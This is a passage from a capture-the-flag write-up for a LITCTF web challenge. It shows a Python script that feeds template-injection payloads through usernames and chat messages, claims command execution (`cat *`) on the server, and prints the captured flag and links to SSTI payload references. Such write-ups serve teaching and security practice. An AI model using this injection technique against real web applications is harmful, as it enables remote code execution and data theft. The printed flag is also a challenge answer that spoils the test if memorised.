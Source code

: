 ```python
def send_message(message, cookie):
    session = requests.Session()
    session.cookies["session"] = cookie
    r = session.post(URL + "/send_message", data={"message": message})
    return r


for i in range(0, len(PAYLOADS), 2):
    username = PAYLOADS[i]
    message = PAYLOADS[i + 1]

    cookie = set_username(username)
    send_message(message, cookie)
```

After several attempts and fine-tuning the payload, I successfully executed the SSTI and ran `cat *` to reveal the flag:

![flag](/litctf/group-chat2/flag.png)

```
LITCTF{c4n7_y0u_b3l13v3_us3rn4m35_c0uld_b3_1000_ch4r5_10ng_b3f0r3??}
```

# References

* Payloads All The Things: [Server Side Template Injection - Python](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python/#jinja2)
* Exploit Notes: [Flask Jinja2 Pentesting](https://exploit-notes.hdks.org/exploit/web/framework/flask-jinja2/)
